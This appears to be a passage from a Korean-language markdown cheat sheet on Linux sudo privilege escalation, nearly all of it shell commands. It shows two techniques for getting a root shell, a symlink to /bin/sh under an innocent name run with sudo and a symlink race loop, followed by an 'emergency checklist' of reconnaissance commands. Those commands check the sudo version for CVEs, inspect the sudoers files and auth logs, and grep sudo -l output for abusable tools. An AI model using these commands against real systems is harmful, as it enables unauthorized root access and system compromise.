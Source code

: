 ```bash

# 7. 심볼릭 링크 활용
ln -sf /bin/sh /tmp/innocent_name
sudo /tmp/innocent_name

# 8. Race condition (드물지만 가능)
while true; do
    ln -sf /bin/sh /tmp/target 2>/dev/null
    ln -sf /bin/false /tmp/target 2>/dev/null
done &
sudo /tmp/target
```

### ⚡ 응급상황 체크리스트 (모든 게 안될 때)

```bash
# 1. sudo 버전 확인 (CVE 검색용)
sudo --version

# 2. sudoers 파일 읽기 권한 확인
ls -la /etc/sudoers
ls -la /etc/sudoers.d/

# 3. sudo 로그 확인
tail -f /var/log/auth.log | grep sudo &
tail -f /var/log/secure | grep sudo &

# 4. 다른 사용자의 sudo 권한
cat /etc/group | grep sudo
cat /etc/group | grep wheel
cat /etc/group | grep admin

# 5. PKexec 확인 (sudo 대안)
which pkexec
ls -la /usr/bin/pkexec

# 6. su 명령어 sudo 권한
sudo -l | grep -E "(su|runuser|login)"

# 7. 시스템 관리 명령어들
sudo -l | grep -E "(systemctl|service|mount|umount|crontab)"

# 8. 네트워크 도구들
sudo -l | grep -E "(iptables|ufw|netstat|ss|tcpdump|wireshark)"

# 9. 파일시스템 도구들
sudo -l | grep -E "(fdisk|mkfs|fsck|lsblk|blkid)"

# 10. 압축/아카이브 도구들
sudo -l | grep -E "(tar|gzip|gunzip|zip|unzip|7z|rar)"
```
